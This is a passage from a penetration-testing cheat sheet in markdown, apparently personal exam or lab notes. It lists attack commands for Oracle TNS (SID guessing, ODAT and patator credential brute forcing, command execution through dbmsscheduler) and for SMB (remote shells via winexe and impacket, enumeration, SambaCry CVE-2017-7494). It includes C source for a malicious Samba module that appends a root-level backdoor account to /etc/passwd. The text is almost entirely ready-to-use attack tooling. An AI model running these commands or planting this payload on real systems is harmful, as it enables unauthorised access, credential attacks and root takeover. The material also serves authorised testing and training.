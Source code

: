     - `odat sidguesser -s "{IP}" -p 1521`
- Connection
    - `tnscmd10g status --10G -p {port} -h {IP}`
- [ODAT](https://github.com/quentinhardy/odat/releases)
- Brute Force Username and Password
    - `./odat all -s {IP} -p {PORT} -d {SID}`
        - `--accounts-file` 
    - `patator oracle_login sid={SID} host={IP} user=FILE0 password=FILE1 0=~/Wordlist/users-oracle.txt 1=~/Wordlist/pass-oracle.txt`
    - `odat all -s 10.11.1.222 -p 1521 -d XEXDB`
- RCE
    - `odat-libc2.12-x86_64 ./odat-libc2.12-x86_64 dbmsscheduler -U {Username} -P {Password} -d {SID} -s {IP} --sysdba --exec "{command}" `
### SMB
- smb to shell
    - `winexe -U '{username}' //{ip} cmd.exe`
    - `impacket-smbexec '{username}:{password}'@{ip}`
    - `impacket-psexec {username}:{password}'@{ip}`
- Check version
    - `nmap -p139,445 --script smb-os-discovery -Pn {IP}`
    - Open Wireshark
        - `smbclient -N -L "//{IP}/" --option='client min protocol=nt1'`
    - msf
        - `scanner/smb/smb_version`
- CVE-2017-7494 SambaCry , linux/samba/is_known_pipename
    - Check vuln
        - `nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 -Pn {IP}`
    - Check share dir
        - `nmap --script=smb-enum-shares -p445 -Pn {IP}`
    - https://github.com/joxeankoret/CVE-2017-7494
        - `python2 cve_2017_7494.py -t 10.11.1.146 --custom command.so`
    - `gcc -o command.so -shared command.c -fPIC`
        - ```C=
          #include <stdio.h>
          #include <unistd.h>
          #include <netinet/in.h>
          #include <sys/types.h>
          #include <sys/socket.h>
          #include <stdlib.h>
          #include <sys/stat.h>
          int samba_init_module(void)
            {
              setresuid(0,0,0); 
              system("echo root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash >> /etc/passwd");
              return 0;
            }
          ```
- List user
    - `nmap --script smb-enum-users.nse -p445 {IP}`
- Low Version
    - `--option='client min protocol=nt1'`
        - If got `NT_STATUS_CONNECTION_DISCONNECTED`
- Symlink Directory Traversal ( < 3.4.5)
    - Tested on 3.0.24
    - https://github.com/roughiz/Symlink-Directory-Traversal-smb-manually
- Samba 2.2.x - Remote Buffer Overflow
    - Tested on 2.2.7a
    - https://www.exploit-db.com/exploits/7
- Scan
    - `python3 enum4linux-ng.py -A {IP}`
### Pop3